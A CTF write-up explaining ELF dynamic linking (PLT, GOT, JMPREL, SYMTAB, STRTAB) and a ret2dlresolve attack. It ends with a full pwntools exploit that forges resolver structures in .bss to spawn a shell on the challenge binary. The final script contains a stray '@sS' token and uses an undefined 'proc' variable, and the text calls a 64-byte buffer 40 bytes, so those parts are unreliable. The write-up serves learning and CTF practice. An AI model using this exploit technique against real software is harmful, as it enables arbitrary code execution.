

+++
title = 'How are functions resolved: A jump across tables into dl_resolve'
date = 2025-01-14T12:48:53+05:30
tags = ["ctf", "linux", "pwn", "writeup"]
+++

While going through another one of those easy challenges (this one dealing with ret2dlresolve), I encountered the following piece of exploit in the writeup which possessed limited verbosity for me and with this level of abstraction I could not figure out what the exploit actually was. Thus I put on my gloves and decided to dig into the dl_resolve process.

```py
from pwn import *
elf = context.binary = ELF('./challenge_binary')
p = elf.process()
rop = ROP(elf)
# create a resolver for the system function
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw('A' * 72) # padding
rop.read(0, dlresolve.data_addr) # read in the data and structures for the
ret2dlresolve
rop.ret2dlresolve(dlresolve) # trigger the linker to resolve system
p.sendline(rop.chain()) # send the exploit
p.sendline(dlresolve.payload) # send the relevant structures
p.interactive()
```

> PS: No grudges against the author of the writeup or challenge. I am thankful for them to introduce me to a new topic.

## Context Information

We are provided with an ELF binary (I’ve tried my best to redact the challenge name).

## Binary Executable Security Mitigation Enumeration

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'./glibc/'
Stripped:   No
```

## Source code analysis

### Functions

- main
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    vuln(argc, argv, envp);
    return 0;
    }
    ```

- vuln
    ```c
    ssize_t vuln()
    {
    char buf[64]; // [rsp+0h] [rbp-40h] BYREF

    return read(0, buf, 0xC8uLL);
    }
    ```
    - **vuln()** is vulnerable to out-of-bounds write as it tries to read in 200 bytes within a 40 bytes buffer.

## Exploitation Avenues

As there is not any target *win()* functions or call to *juicy* funtions like *system()*, we need to perform a `ret2dlresolve` attack to call *system()* by abusing the dynamic linking process of an ELF.

During a ret2dlresolve, the attacker tricks the binary into resolving a function of its choice (such as system) into the PLT. This then means the attacker can use the PLT function as if it was originally part of the binary, bypassing ASLR (if present) and **requiring no libc leaks.**

## Detailed Overview of dynamic linking

Dynamically-linked ELF objects import libc functions when they are first called using the PLT and GOT. During the relocation of a runtime symbol, RIP will jump to the PLT and attempt to resolve the symbol. During this process a "resolver" is called.

Example: Calling *read()* in *vuln()*

At `vuln+25`

```
0x000000000040113b <+25>:    call   0x401030 <read@plt>
```

At `read@plt`

```
0x401030 <read@plt>: jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <read@got.plt>
0x401036 <read@plt+6>:       push   0x0
0x40103b <read@plt+11>:      jmp    0x401020
```

First it jumps to `read@got.plt`, if the function is already linked this location is populated with the address of the target funtion. But on first call it points to the next instruction in the PLT.

At `read@got.plt` before first call to read
```
0x404018 <read@got.plt>:        0x0000000000401036
```

As evident from above, at 0x401036 we push a byte (here 0x0) called `reloc_arg` (It is essentially the index of the Elf32_Rel/Elf64_Rela in JMPREL table, *example: read is at index 0*) onto stack and jump to a predefined address (here 0x401020) called *default stub*. The `reloc_arg` is multiplied by size of Elf64_Rela (24) to get `reloc_offset` from the JMPREL base address.

At the stub, we push `link_map` ,*a list with all the loaded libraries*, to the stack and jump to an address loaded from start of the GOT section.

```
0x401020:    push   QWORD PTR [rip+0x2fe2]        # 0x404008
0x401026:    jmp    QWORD PTR [rip+0x2fe4]        # 0x404010
```

Here 0x404010 is the start of GOT section. At the start of GOT section there is a special address that lies within the ld.so's memory range responsible for loading the dynamically linked libc function.

```
0x404010:       0x00007ffff7fe8540
```

```
0x7ffff7fd3000     0x7ffff7ff3000    0x20000     0x1000  r-xp   /challenge/glibc/ld-linux-x86-64.so.2
```

This leads to a function call of the form: `_dl_runtime_resolve (link_map , rel_offset/relog_arg)`.

`_dl_runtime_resolve` uses `link_map` list to resolve the symbol. After relocating the symbol, it populates the approriate entry in SYMTAB, the initial call of read will be invoked following which the control returns to the instruction after the original call instruction to this funtion within the code, for every subsequent call the GOT section has been populated thorugh with the address of the function.

```
0x404018 <read@got.plt>:        0x00007ffff7ee1780
```

## Understanding resolution sections and structures in ELF

In order to resolve the functions, there are 3 structures that need to exist within the binary. Faking these 3 structures could enable us to trick the linker into resolving a function of our choice, and we can also pass parameters in (such as */bin/sh*) once resolved.

```
readelf -d void

Tag        Type                         Name/Value

0x0000000000000005 (STRTAB)             0x400390
0x0000000000000006 (SYMTAB)             0x400330
0x0000000000000017 (JMPREL)             0x400430
```

JMPREL (.rel.plt) has an offset `r_offset` that stores the target GOT address where to store the resolved address and another index `R_SYM` into the SYMTAB (.dynsym) a symbol table, the structure at this offset has a member `st_name` which stores offset into STRTAB (.dynstr), a string table, for symbol name.

### JMPREL (.rel.plt)

The JMPREL segment stores **the Relocation Table**, which maps each entry to a symbol.

- x86 *example* ELF:
    ```
    readelf -r source

    Relocation section '.rel.dyn' at offset 0x2d0 contains 1 entry:
    Offset     Info    Type            Sym.Value  Sym. Name
    0804bffc  00000206 R_386_GLOB_DAT    00000000   __gmon_start__

    Relocation section '.rel.plt' at offset 0x2d8 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    0804c00c  00000107 R_386_JUMP_SLOT   00000000   gets@GLIBC_2.0
    0804c010  00000307 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
    ```

- amd64 *void* ELF:
    ```
    readelf -r void

    Relocation section '.rela.dyn' at offset 0x400 contains 2 entries:
    Offset          Info           Type           Sym. Value    Sym. Name + Addend
    0000004031f0  000200000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
    0000004031f8  000300000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0

    Relocation section '.rela.plt' at offset 0x430 contains 1 entry:
    Offset          Info           Type           Sym. Value    Sym. Name + Addend
    000000404018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
    ```
    - IDA listing
        ```
        LOAD:0000000000400400                               ; ELF RELA Relocation Table
        LOAD:0000000000400400 F0 31 40 00 00 00 00 00 06 00+Elf64_Rela <4031F0h, 200000006h, 0>     ; R_X86_64_GLOB_DAT __libc_start_main
        LOAD:0000000000400418 F8 31 40 00 00 00 00 00 06 00+Elf64_Rela <4031F8h, 300000006h, 0>     ; R_X86_64_GLOB_DAT __gmon_start__
        LOAD:0000000000400430                               ; ELF JMPREL Relocation Table
        LOAD:0000000000400430 18 40 40 00 00 00 00 00 07 00+Elf64_Rela <404018h, 100000007h, 0>     ; R_X86_64_JUMP_SLOT read
        LOAD:0000000000400430 00 00 01 00 00 00 00 00 00 00+LOAD ends
        ```

These entries are of type `Elf32_Rel` (in x86 executable) and `Elf64_Rela` (in amd64 executable):

- x86
    ```c
    typedef uint32_t Elf32_Addr;
    typedef uint32_t Elf32_Word;
    typedef struct
    {
    Elf32_Addr    r_offset;               /* Address */
    Elf32_Word    r_info;                 /* Relocation type and symbol index */
    } Elf32_Rel;
    /* How to extract and insert information held in the r_info field.  */
    #define ELF32_R_SYM(val)                ((val) >> 8)
    #define ELF32_R_TYPE(val)               ((val) & 0xff)
    ```

    The column **name** coresponds to our symbol name. The **offset** is the GOT entry for our symbol. **info** stores additional metadata. **ELF32_R_SYM** stores the index of the `Elf32_Sym`(*see SYMTAB section definition below*) entry in `SYMTAB` (Symbol Table) for the specified symbol.

    Due to value of **info** (visible in .rel.plt dump) the `R_SYM` of **gets** is 1 as 0x107 >> 8 = 1.

- amd64 (cleaner definition further below)
    ```c++
    using Elf64_Addr = uint64_t;
    using Elf64_Xword = uint64_t;

    struct Elf64_Rela {
    Elf64_Addr r_offset; // Location (file byte offset, or program virtual addr).
    Elf64_Xword r_info;  // Symbol table index and type of relocation to apply.
    
    // These accessors and mutators correspond to the ELF64_R_SYM, ELF64_R_TYPE,
    // and ELF64_R_INFO macros defined in the ELF specification:
    Elf64_Word getSymbol() const { return (r_info >> 32); }
    Elf64_Word getType() const { return (Elf64_Word)(r_info & 0xffffffffL); }
    void setSymbol(Elf64_Word s) { setSymbolAndType(s, getType()); }
    void setType(Elf64_Word t) { setSymbolAndType(getSymbol(), t); }
    void setSymbolAndType(Elf64_Word s, Elf64_Word t) {
        r_info = ((Elf64_Xword)s << 32) + (t & 0xffffffffL);
    }
    };
    ```

    The `R_SYM` value of read (in *void* ELF) would be 1 (0x000100000007 >> 32).

    The type `R_386_JUMP_SLOT` and `R_X86_64_JUMP_SLOT` means that the entry is for GOT section.

    Eg: IDA's listing of JUMPREL of *example* amd64 ELF.

    ```
    LOAD:04005C0 ; ELF JMPREL Relocation Table
    LOAD:04005C0 Elf64_Rela <404018h, 200000007h, 0> ; R_X86_64_JUMP_SLOT write
    LOAD:04005D8 Elf64_Rela <404020h, 300000007h, 0> ; R_X86_64_JUMP_SLOT strlen
    LOAD:04005F0 Elf64_Rela <404028h, 400000007h, 0> ; R_X86_64_JUMP_SLOT setbuf
    LOAD:0400608 Elf64_Rela <404030h, 500000007h, 0> ; R_X86_64_JUMP_SLOT read
    ```

    Here the first value is `r_offset` (offset into GOT), the second value is `r_info`, the third value is `r_addend` (available in another definition of `Elf64_Rela` mentioned further below).

    Notice how the second value mentions the offset within the SYMTAB table with the highest-order-byte - 2, 3, 4, 5 while the lowest-order-byte represents type 7 ie. R_X86_64_JUMP_SLOT.

    - Cleaner definition of `Elf64_Rela`
        ```c
        typedef struct
        {
        Elf64_Addr        r_offset;    /* 64 bit - Address */
        Elf64_Xword       r_info;      /* 64 bit - Relocation type and symbol index */
        Elf64_Sxword      r_addend;    /* 64 bit - Addend */
        } Elf64_Rela; // 24 bytes
        /* How to extract and insert information held in the r_info field.*/
        #define ELF64_R_SYM(i)         ((i) >> 32)
        #define ELF64_R_TYPE(i)        ((i) & 0xffffffff)
        #define ELF64_R_INFO(sym,type) ((((Elf64_Xword) (sym)) << 32) + (type))
        ```

### STRTAB (.dynstr)

STRTAB is a simple table that stores the strings for symbols name.

IDA's listing for STRTAB for *void*

```
LOAD:0000000000400390                               ; ELF String Table
LOAD:0000000000400390 00                            unk_400390 db    0                      ; DATA XREF: LOAD:0000000000400348↑o
LOAD:0000000000400390                                                                       ; LOAD:0000000000400360↑o
LOAD:0000000000400390                                                                       ; LOAD:0000000000400378↑o
LOAD:0000000000400390                                                                       ; LOAD:00000000004003E0↓o
LOAD:0000000000400390                                                                       ; LOAD:00000000004003F0↓o
LOAD:0000000000400391 72 65 61 64 00                aRead db 'read',0                       ; DATA XREF: LOAD:0000000000400348↑o
LOAD:0000000000400396 5F 5F 6C 69 62 63 5F 73 74 61+aLibcStartMain db '__libc_start_main',0 ; DATA XREF: LOAD:0000000000400360↑o
LOAD:00000000004003A8 6C 69 62 63 2E 73 6F 2E 36 00 aLibcSo6 db 'libc.so.6',0               ; DATA XREF: LOAD:00000000004003E0↓o
LOAD:00000000004003B2 47 4C 49 42 43 5F 32 2E 32 2E+aGlibc225 db 'GLIBC_2.2.5',0            ; DATA XREF: LOAD:00000000004003F0↓o
LOAD:00000000004003BE 2E 2F 67 6C 69 62 63 2F 00    aGlibc db './glibc/',0
LOAD:00000000004003C7 5F 5F 67 6D 6F 6E 5F 73 74 61+aGmonStart db '__gmon_start__',0        ; DATA XREF: LOAD:0000000000400378↑o
```

## SYMTAB (.dynsym)

This table holds relevant symbol information.

- x86
    Each entry is a `Elf32_Sym` structure and its size is 16 bytes.

    ```c
    typedef struct { 
        Elf32_Word st_name ; /* Symbol name (string tbl index) -4b*/
        Elf32_Addr st_value ; /* Symbol value -4b*/ 
        Elf32_Word st_size ; /* Symbol size -4b*/ 
        unsigned char st_info ; /* Symbol type and binding-1b */ 
        unsigned char st_other ; /* Symbol visibility under glibc>=2.2 -1b */ 
        Elf32_Section st_shndx ; /* Section index -2b*/ 
    } Elf32_Sym;
    ```

- amd64
    Contains a symbol table using `Elf64_Sym` structures. Every structure associates a symbolic name with a piece of code elsewhere in the binary.
    
    ```c
    typedef struct
    {
        Elf64_Word     st_name;    /* 32bit - Symbol name (string tbl index) */
        unsigned char  st_info;    /* Symbol type and binding */
        unsigned char  st_other;   /* Symbol visibility */
        Elf64_Section  st_shndx;   /* 16 bits - Section index */
        Elf64_Addr     st_value;   /* 64 bits - Symbol value */
        Elf64_Xword    st_size;    /* 64 bits - Symbol size */
    } Elf64_Sym; // 24 bytes
    ```

- st_name: It acts as a string table index. It will be used to locate the right string in the STRTAB section.
- st_info: symbol’s type and binding attributes.
- st_other: symbol’s visibility.
- st_shndx: the relevant section header table index.
- st_value: the value of the associated symbol.
- st_size: the symbol’s size. If the symbol has no size or the size is unknown, it contains 0.

- IDA listing *void* binary
    ```
    LOAD:0000000000400330                               ; ELF Symbol Table
    LOAD:0000000000400330 00 00 00 00 00 00 00 00 00 00+Elf64_Sym <0>
    LOAD:0000000000400348 01 00 00 00 12 00 00 00 00 00+Elf64_Sym <offset aRead - offset unk_400390, 12h, 0, 0, 0, 0> ; "read"
    LOAD:0000000000400360 06 00 00 00 12 00 00 00 00 00+Elf64_Sym <offset aLibcStartMain - offset unk_400390, 12h, 0, 0, 0, 0> ; "__libc_start_main"
    LOAD:0000000000400378 37 00 00 00 20 00 00 00 00 00+Elf64_Sym <offset aGmonStart - offset unk_400390, 20h, 0, 0, 0, 0> ; "__gmon_start__
    ```
- IDA listing *example* binary
    ```
    LOAD:04003D8 ; ELF Symbol Table
    LOAD:04003D8 Elf64_Sym <0>
    LOAD:04003F0 Elf64_Sym <offset aLibcStartMain - offset unk_4004B0, 12h, 0, 0, 0, 0> ; "__libc_start_main"
    LOAD:0400408 Elf64_Sym <offset aWrite - offset unk_4004B0, 12h, 0, 0, 0, 0> ; "write"
    LOAD:0400420 Elf64_Sym <offset aStrlen - offset unk_4004B0, 12h, 0, 0, 0, 0> ; "strlen"
    LOAD:0400438 Elf64_Sym <offset aSetbuf - offset unk_4004B0, 12h, 0, 0, 0, 0> ; "setbuf"
    LOAD:0400450 Elf64_Sym <offset aRead - offset unk_4004B0, 12h, 0, 0, 0, 0> ; "read"
    ```

> The most important value here is **st_name** as this **gives the offset in STRTAB of the symbol name.** The other fields are not relevant to the exploit itself.


### JMPREL, SYMTAB AND STRTAB for void ELF

- Base section addresses
    ```
    readelf -d void

    Tag        Type                         Name/Value

    0x0000000000000005 (STRTAB)             0x400390
    0x0000000000000006 (SYMTAB)             0x400330
    0x0000000000000017 (JMPREL)             0x400430
    ```

- JMPREL entry for read
    ```
    (gdb) x/2gx 0x0000000000400430 + 0
    0x400430:       0x0000000000404018      0x0000000100000007
                    |__ r_offset            |___ r_info
    ```

    R_SYM = (r_info >> 32) = 1

- SYMTAB at index 1
    ```
    x/6wx 0x400330 + 1 * 24
    0x400348:       0x00000001      0x00000012      0x00000000      0x00000000
    0x400358:       0x00000000      0x00000000
    ```
    - SYMTAB base + index * size of Elf64_Sym
    - st_name = 1

- STRTAB at index 1
    ```
    x/s 0x0000000000400390 + 0x00000001
    0x400391:       "read"
    ```

## TL;DR function resolution pseudocode

Exmaple: calling *read* in x86 ELF

```c
_dl_runtime_resolve(link_map, reloc_arg) {
    uintptr_t reloc_offset = reloc_arg * sizeof(Elf64_Rela); // reloc_arg is pushed in .plt section
    Elf64_Rela * rel_entry = JMPREL + reloc_offset ;
    Elf64_Sym * sym_entry = &SYMTAB[ELF64_R_SYM(rel_entry->r_info)];
    char * sym_name = STRTAB + sym_entry->st_name ;
    _search_for_symbol_(link_map, sym_name);
    // invoke initial read call now that symbol is resolved
    read(0, buf, 0x100);
}
```

## ret2dlresolve

> Use .bss section to create fake entries, it is closer to the ELF in memory compared to the stack.

### Step 1

We need to fake an Elf64_Rela structure and an ELf64_Sym structure with following characteristics

#### Fake Elf64_Rela (JMPREL/.rel.plt) structure

- It must have a writeable `r_offset` area where `_dl_runtime_resolve` will write the address of *system()*.
- In the `r_info` attribute the lower 4 bytes (32 bits) must be equal to 7 ie. `R_X86_64_JUMP_SLOT`, while the higher 4 bytes should be constructed such that `(r_info >> 32) * 24` (R_SYM value * size of Elf64_Sym as R_SYM is just index) when added to SYMTAB address, points to fake *Elf64_Sym*.

#### Fake Elf64_Sym (SYMTAB/.dynsym) structure
- The `st_name` value when added to STRTAB (.dynstr) address points to **'system'** string.

### Step 2

With the fake structures in place, we calculate `reloc_arg` (offset usually pushed in a functions's .plt section) from JMPREL (.rel.plt) address to point to our fake Elf64_Rela structure.

Next, we push the fake value of `reloc_arg` onto stack and transfer control to default stub at the start of .plt section to let dl_resolve do its magic.

## Crafting Exploit

As `.bss` section is writable at runtime, we use this space to create our fake structures.

**NOTE**: Make sure that index to *fake* .dynsym entry must be multiple of 24. If on dividing the address difference between our fake entry and SYMTAB base we get a fraction this leads to variance in resultant address when recalculated by `_dl_fixup` during resolution as only the integer part would be stored in `r_info` as index.

```py
import pwn

#pwn.context.terminal = ['tmux', 'splitw', '-h']

exe = "./void"
elf = pwn.context.binary = pwn.ELF(exe, checksec = False)
rop = pwn.ROP(elf)
#proc = pwn.process("./void")
#proc = pwn.gdb.debug("./void", gdbscript = """
#                     b *0x000000000040113b
#                     c
#                     """)

# important addresses
PLT_stub = elf.get_section_by_name(".plt")["sh_addr"]
BSS = elf.get_section_by_name(".bss")["sh_addr"]

print(f"[*] .plt default stub at: {hex(PLT_stub)}")
print(f"[*] .bss at: {hex(BSS)}")

STRTAB, SYMTAB, JMPREL = map(elf.dynamic_value_by_tag, ["DT_STRTAB", "DT_SYMTAB", "DT_JMPREL"])

print(f"[*] STRTAB (.dynstr) at: {hex(STRTAB)}")
print(f"[*] SYMTAB (.dynsym) at: {hex(SYMTAB)}")
print(f"[*] JMPREL (.rel.plt) at: {hex(JMPREL)}")

def align(addr):
    return (0x18 - (addr) % 0x18)

# payload 1 =============================
# 1. overflow into return address
# 2. call read(0, .bss, size_of_fake_entries)
# 3. return to vuln()

"""
    This function takes an arbitrary number of arbitrarily nested lists, tuples
    and dictionaries.  It will then find every string and number inside those
    and flatten them out.  Strings are inserted directly while numbers are
    packed using the :func:`pack` function.  Unicode strings are UTF-8 encoded.

    Examples
        >>> flat(4)
        b'\x04\x00\x00\x00'
        >>> flat(b'X')
        b'X'
        >>> flat([1,2,3])
        b'\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00'
        >>> flat({4:b'X'})
        b'aaaaX'
"""

payload_1 = pwn.flat({
    72: [   # pad 72 bytes to overwrite buffer and rbp values
            pwn.p64(rop.rdi.address),
            pwn.p64(0),                     # read from stdin
            pwn.p64(rop.rsi.address),
            pwn.p64(BSS),                   # read into .bss section
            pwn.p64(0),                     # junk for pop r15
                                            # we do not have gadget to set rdx to size of next payload stage, but it has value 0xc8 when next instruction is called, we can work with that our as next stage is much smaller than 0xc8 (200) bytes
            elf.sym.read,                   # call read()
            elf.symbols["vuln"],            # return to vuln() after read()
        ]
})

proc.sendline(payload_1)


# payload 2 ============================
# 1. input value into previous read(0, .bss, size) call
#       a. create fake Elf64_Rel structure (.rel.plt)
#       b. create fake Elf64_Sym structure (.dynsym)
#       c. write string 'system' for .dynstr resolution of symbol name
#       d. write string '/bin/sh' for passing as argument to system later
# 2. let return to vuln() as proposed in payload 1

"""
typedef struct
{
  Elf64_Addr        r_offset;    /* 64 bit - Address */
  Elf64_Xword       r_info;      /* 64 bit - Relocation type and symbol index */
  Elf64_Sxword      r_addend;    /* 64 bit - Addend */
} Elf64_Rela; // 24 bytes
"""
# Fake Elf64_Sym is at 24 bytes (size of fake Elf64_Rela - JMPREL entry) after BSS. Index must be offset from SYMTAB base.
#dynsym_idx = ((BSS + 24) - SYMTAB) // 24  <-- this resulted in an index in fraction, we need to align the address to 24 byte structures.
padding = align(BSS - SYMTAB)
FAKE_STRUCTS = BSS + padding
dynsym_idx = ((FAKE_STRUCTS + 24) - SYMTAB) // 24
r_info = (dynsym_idx << 32) | 0x7

# Fake Elf64_Sym entry must contain offset to symbol name from STRTAB.
dynstr_off = (FAKE_STRUCTS + 48) - STRTAB

payload_2 = pwn.flat({
    0: [    
        # fake Elf64_Rela entry for JMPREL
        BSS,                        # r_offset - a write address to write address of system after resolution
        r_info,                     # r_info - indexes into our fake .dynsym entry
        pwn.p64(0),                 # r_addend - zero, not needed for our purposes
        b'\x00' * padding,          # added padding to make 24 byte (structure size) alignment as dynsym_idx (in r_info) must be exact multiple of 24

        @sS
        pwn.p32(dynstr_off),        # st_name - offset from STRTAB for our symbol name
        pwn.p32(0) * 5,             # other 20 bytes, not needed for our purposes

        # target symbol name to be referenced from STRTAB through our SYMTAB entry
        "system\x00\x00",

        # argument to system
        "/bin/sh\x00",
        ]
})

payload_2 = payload_2 + b'A' * (200 - len(payload_2))   # proc.sendline() was buggy so I filled entire 200 byte limit in count of read()
proc.send(payload_2)

# payload 3 ============================
# 1. overflow into the return address
# 2. push reloc_arg (that resolves to start of our fake structure region)
# 3. return to PLT default stub
# 4. profit

binsh_addr = FAKE_STRUCTS + 24 + 24 + 8 # start of fake structs + size of Elf64_Rela + size of Elf64_Sym + length of 'system\x00\x00'
reloc_arg = (FAKE_STRUCTS - JMPREL) // 24
payload_3 = pwn.flat({
    72: [
        pwn.p64(rop.rdi.address),   # setup argument for system()
        pwn.p64(binsh_addr),
        PLT_stub,                   # to call dl_resolve
        reloc_arg,                 # PLT stub assumes that the offset to JMPREL entry is already pushed
        ]
})

proc.send(payload_3)

proc.interactive()
```

## Post Exploitation

Post-exploitation I drafted a meme that looked cool to me and adhered to *then* meme trends.

